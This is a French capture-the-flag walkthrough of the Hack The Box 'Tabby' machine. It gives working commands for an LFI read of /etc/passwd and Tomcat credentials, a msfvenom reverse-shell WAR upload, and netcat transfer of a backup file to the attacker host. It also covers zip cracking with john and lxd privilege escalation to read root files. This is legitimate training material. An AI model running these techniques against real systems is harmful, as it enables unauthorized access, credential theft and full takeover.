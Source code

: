![Pic1](../img/tabby1.PNG?raw=true) </br>

# Introduction

Tabby est une machine linux dont l'adresse IP est 10.10.10.194.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des fichiers et dossiers d'un site web.
* LFI -> credential.
* Cracking zip password.
* Elevation via lxd.
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.194
```
![Pic2](../img/tabby2.PNG?raw=true) </br>
L'énumération de dossiers/fichiers sur les deux serveur web ne donnera rien.</br>
Un rapide tour sur les sites web nous permet de voir un service de "MEGA HOSTING" et un tomcat sur le port 8080.

# Obtenir un accès utilisateur
Sur le port 80, la page news contient l'url suivante : megahosting.htb/news.php?file=statement</br>
Une LFI est présente sur le site, nous tentons alors le payload : **../../../../../../etc/passwd** :</br>
![Pic3](../img/tabby3.PNG?raw=true) </br>
Du coté du port 80, rien d'autre à en tirer, la LFI va nous permettre de trouver les credentials de tomcat :
```bash
$ curl http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
![Pic4](../img/tabby4.PNG?raw=true) </br>
Nous pouvons alors nous connecter en tant que tomcat sur le port 8080.</br>
En regardant la documentation, on voit que l'on peut déployer des fichiers WAR à distance sur le site :</br>
![Pic5](../img/tabby5.PNG?raw=true) </br>
Nous allons faire un reverse shell en WAR et l'upload avec curl :
```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.34 LPORT=4567 -f war > rev.war
$ curl -X PUT rev.war http://'tomcat:$3cureP4s5w0rd123!'@megahosting.htb:8080/manager/text/deploy?path=/myfoo3
```
Le serveur n'executant que du jsp, il nous faut trouver le jsp et l'exécuter :
```bash
$ unzip rev.war
$ curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/myfoo3
```
![Pic6](../img/tabby6.PNG?raw=true) </br>
Un fichier zip est à l'emplacement /var/www/html/files/, mais requiert un mot de passe pour être extrait, on le récupère avec netcat :
```bash
$ nc -l -p 1234 >16162020_backup.zip # sur kali
$ nc -w 3 10.10.14.34 1234 < 16162020_backup.zip # sur la box
```
Et nous le crackons avec john :
```bash
$ zip2john 16162020_backup.zip > zip.hash
$ john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/tabby7.PNG?raw=true) </br>
SSH ne répondant pas, on retourne sur le reverse shell pour switch de user et récupérer le user.txt :
```bash
$ su ash
$ cat /home/ash/user.txt
```
![Pic8](../img/tabby8.PNG?raw=true) </br>

# Obtenir un accès administrateur
Nous pouvons voir avec la commande id que nous sommes dans le groupe lxd :
```bash
$ id
```
![Pic9](../img/tabby9.PNG?raw=true) </br>
Un rapide tour sur l'internet nous permet de voir un article permettant une élèvation de privilège bien guidée :</br>
https://www.hackingarticles.in/lxd-privilege-escalation/</br>
Nous avons juste à la suivre et à lire le flag dans root.txt :
```bash
####### Sur notre machine, on créer une vm et on partage le tar.gz
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo bash build-alpine
$ python3 -m http.server

####### Sur la box, sur le home de ash, on récupère le tar.gz pour l'importer et monter le /root dedans.
$ wget 10.10.14.34:8000/alpine-v3.12-x86_64-XXXXXXXXX.tar.gz
$ lxc image import ./alpine-v3.12-x86_64-XXXXXXXXX.tar.gz --alias myimage
$ lxc image list
$ lxc init myimage hello -c security.privileged=true
$ lxc config device add hello mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start hello
$ lxc exec hello /bin/sh
$ cd /mnt/root/root
$ cat root.txt
```
![Pic10](../img/tabby10.PNG?raw=true) </br>